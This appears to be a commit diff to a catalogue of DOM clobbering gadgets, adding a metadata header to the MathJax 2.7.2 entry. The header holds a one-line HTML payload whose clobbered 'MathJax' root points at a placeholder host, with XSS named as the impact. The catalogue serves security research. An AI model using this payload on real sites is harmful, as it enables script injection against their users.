

Before and after one commit to jackfromeast/dom-clobbering-collection, a Markdown page: domc-gadgets/mathjax.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
[Gadget] Add the header for each gadgets

````diff
--- a/domc-gadgets/mathjax.md
+++ b/domc-gadgets/mathjax.md
@@ -1,4 +1,15 @@
 ## MathJax
+
+### Meta
+
++ Library: MathJax
++ Version: 2.7.2
++ Payload: ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>```
++ Impact: XSS
++ Foundby: TheHulk
+
+
+### Library
 
 URL:
 + `https://cdn.jsdelivr.net/npm/mathjax@2/MathJax.js`
````
